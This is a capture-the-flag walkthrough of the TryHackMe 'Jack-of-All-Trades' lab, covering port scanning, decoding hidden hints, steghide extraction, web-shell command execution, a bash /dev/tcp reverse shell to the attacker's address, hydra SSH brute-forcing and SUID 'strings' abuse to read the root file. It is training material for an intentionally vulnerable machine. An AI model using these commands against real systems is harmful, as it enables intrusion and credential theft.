

# Jack-of-All-Trades

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Easy
OS: Linux
Subscription type: Free
Description: Boot-to-root originally designed for Securi-Tay 2020
```

Room link: [https://tryhackme.com/room/jackofalltrades](https://tryhackme.com/room/jackofalltrades)

## Solution

### Check for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ export TARGET_IP=10.10.151.157

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ sudo nmap -sV -sC -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-05 10:30 CEST
Nmap scan report for 10.10.151.157
Host is up (0.043s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.26 seconds
```

We have two services running:

- Apache httpd 2.4.10 on port 22
- OpenSSH 6.7p1 on port 80

Note the weird/swapped port numbers!

### Manually browse to the web site

Manually browsing to port 22 shows a welcome page


In case your browser prevents you from visiting the port with this error message

```text
This address is restricted 

This address uses a network port which is normally used for purposes other than Web browsing. 
Firefox has canceled the request for your protection.
```

you need to [configure an exception](https://support.mozilla.org/en-US/questions/1083282).

Checking the source shows a base64-encoded string in a comment

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ curl http://10.10.151.157:22           
<html>
        <head>
                <title>Jack-of-all-trades!</title>
                <link href="assets/style.css" rel=stylesheet type=text/css>
        </head>
        <body>
                
                <h1>Welcome to Jack-of-all-trades!</h1>
                <main>
                        <p>My name is Jack. I'm a toymaker by trade but I can do a little of anything -- hence the name!<br>I specialise in making children's toys (no relation to the big man in the red suit - promise!) but anything you want, feel free to get in contact and I'll see if I can help you out.</p>
                        <p>My employment history includes 20 years as a penguin hunter, 5 years as a police officer and 8 months as a chef, but that's all behind me. I'm invested in other pursuits now!</p>
                        <p>Please bear with me; I'm old, and at times I can be very forgetful. If you employ me you might find random notes lying around as reminders, but don't worry, I <em>always</em> clear up after myself.</p>
                        <p>I love dinosaurs. I have a <em>huge</em> collection of models. Like this one:</p>
                        
                        <p>I make a lot of models myself, but I also do toys, like this one:</p>
                        
                        <!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
                        <!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
                        <p>I hope you choose to employ me. I love making new friends!</p>
                        <p>Hope to see you soon!</p>
                        <p id="signature">Jack</p>
                </main>
        </body>
</html>
```

We have a recovery page `/recovery.php`. We can decode the encoded string with `base64 -d`

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ echo 'UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==' | base64 -d
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

And now we have a password (`u?WtKSraq`.)

### Visit the recovery page

Next, we check out the recovery page on `http://10.10.151.157:22/recovery.php`



Let's try the credentials `jack:u?WtKSraq`

Nothing seems to happen, but checking the response in Burp shows an endoded string in an HTML-comment

```html
<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
```

This string too looks somewhat like base64-encoding

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ echo 'GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=' | base64 -d
�0�V���WM�▒��▒�C �VM�▒�T▒�C �  
```

But not only...

After some trial and error in CyberChef we get the cleartext with a combination of base32, hex, and rot13 decoding

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ echo 'GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=' | base32 -d | xxd -r -p | rot13
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S  
```

The web link links/redirects to the [Stegosauria page on Wikipedia](https://en.wikipedia.org/wiki/Stegosauria).

So it's back to the homepage again.

### Revisit the homepage

The word `Stegosauria` reminds me of [Steganography](https://en.wikipedia.org/wiki/Steganography) so let's download and examine the images on the homepage.

Using `steghide` we can see that there is an hidden and embedded file in the `stego.jpg` image.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ steghide info stego.jpg       
"stego.jpg":
  format: jpeg
  capacity: 1.9 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "creds.txt":
    size: 58.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ steghide extract -sf stego.jpg 
Enter passphrase: 
wrote extracted data to "creds.txt".
```

The password used is the one we found earlier (`u?WtKSraq`)

We check the `creds.txt` file

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ cat creds.txt                      
Hehe. Gotcha!

You're on the right path, but wrong image!
```

But no! Wrong image apparently! The right one turns out to be the `header.jpg` image.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ steghide extract -sf header.jpg 
Enter passphrase: 
wrote extracted data to "cms.creds".
```

We cross our fingers and check the new file

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

We get CMS-redentials.

### Visit the recovery page - part 2

We go back to the recovery page (`http://10.10.151.157:22/recovery.php`) and test the new credentials (`jackinthebox:TplFxiSHjY`).

Success! We end up at `http://10.10.151.157:22/nnxhweOV/index.php` with the following message:  
`GET me a 'cmd' and I'll run it for you Future-Jack.`

Note both the capitalized GET-word and the quotes around the cmd-parameter.  
This smells like a web shell!

And that is correct! Accessing `http://10.10.151.157:22/nnxhweOV/index.php?cmd=id` returns

```text
GET me a 'cmd' and I'll run it for you Future-Jack. uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Get a reverse shell

Next, we use an URL-encoded version of `/bin/bash -c "/bin/bash -i >& /dev/tcp/10.14.61.233/443 0>&1"` to get a reverse shell.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.14.61.233] from (UNKNOWN) [10.10.151.157] 55257
bash: cannot set terminal process group (711): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ 
```

### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that

```bash
www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ tty
tty
not a tty
www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ python -c 'import pty;pty.spawn("/bin/bash")'
<:/var/www/html/nnxhweOV$ python -c 'import pty;pty.spawn("/bin/bash")'      
www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ ^Z
zsh: suspended  nc -lvnp 443
                                                                                                                                                                                        
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ stty raw -echo ; fg ; reset
[1]  + continued  nc -lvnp 443

www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ stty rows 200 columns 200
www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ ^C
www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ 
```

Now we have a proper shell that survives `Ctrl + C`!

### Check the /home directory

Next we take a look around the `/home` directory

```bash
www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ cd /home
www-data@jack-of-all-trades:/home$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 29  2020 .
drwxr-xr-x 23 root root 4096 Feb 29  2020 ..
drwxr-x---  3 jack jack 4096 Feb 29  2020 jack
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
www-data@jack-of-all-trades:/home$ cat jacks_password_list 
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
www-data@jack-of-all-trades:/home$ 
```

We have a list of potential passwords.

### Bruteforce the SSH login

We run `hydra` to find out which of the above passwords is in use

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ hydra -l jack -P jacks_passwords.txt -s 80 $TARGET_IP ssh  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-05 12:38:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:1/p:25), ~2 tries per task
[DATA] attacking ssh://10.10.151.157:80/
[80][ssh] host: 10.10.151.157   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-05 12:38:46
```

So the password is `ITMJpGGIqg1jn?>@`.

### Login with SSH as jack

We can now switch from our reverse shell to SSH

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ ssh -p 80 jack@$TARGET_IP        
The authenticity of host '[10.10.151.157]:80 ([10.10.151.157]:80)' can't be established.
ED25519 key fingerprint is SHA256:bSyXlK+OxeoJlGqap08C5QAC61h1fMG68V+HNoDA9lk.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:97: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.151.157]:80' (ED25519) to the list of known hosts.
jack@10.10.151.157's password: 
jack@jack-of-all-trades:~$ 
```

### Get the user flag

Let's search for the user flag

```bash
jack@jack-of-all-trades:~$ ls
user.jpg
```

The flag is in an image format!

We can download it with scp

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Jack-of-All-Trades]
└─$ scp -P 80 jack@$TARGET_IP:/home/jack/user.jpg .
jack@10.10.151.157's password: 
user.jpg   
```

and view it locally.

### Enumeration

We now start enumerating for ways to escalate our privileges.  
First we check if we can run any commands as root via `sudo`

```bash
jack@jack-of-all-trades:~$ sudo -l
[sudo] password for jack: 
Sorry, user jack may not run sudo on jack-of-all-trades.
jack@jack-of-all-trades:~$ 
```

And we check for SUID files

```bash
jack@jack-of-all-trades:~$ find / -type f -perm /4000 2> /dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
jack@jack-of-all-trades:~$ 
```

`strings` looks promissing. We can use it to read the root flag!

### Get the root flag

Finally we can get the root flag with `strings`

```bash
jack@jack-of-all-trades:~$ strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{<REDACTED>}
jack@jack-of-all-trades:~$ 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [base64 - Linux manual page](https://man7.org/linux/man-pages/man1/base64.1.html)
- [Base64 - Wikipedia](https://en.wikipedia.org/wiki/Base64)
- [Burp suite - Documentation](https://portswigger.net/burp/documentation)
- [Burp suite - Homepage](https://portswigger.net/burp)
- [Content management system - Wikipedia](https://en.wikipedia.org/wiki/Content_management_system)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [CyberChef - GitHub](https://github.com/gchq/CyberChef)
- [CyberChef - Homepage](https://gchq.github.io/CyberChef/)
- [Hydra - GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Hydra - Kali Tools](https://www.kali.org/tools/hydra/)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [scp - Linux manual page](https://man7.org/linux/man-pages/man1/scp.1.html)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [Steganography - Wikipedia](https://en.wikipedia.org/wiki/Steganography)
- [steghide - Homepage](https://steghide.sourceforge.net/)
- [steghide - Kali Tools](https://www.kali.org/tools/steghide/)
- [strings - Linux manual page](https://man7.org/linux/man-pages/man1/strings.1.html)
- [Web shell - Wikipedia](https://en.wikipedia.org/wiki/Web_shell)
- [xxd - Linux manual page](https://linux.die.net/man/1/xxd)
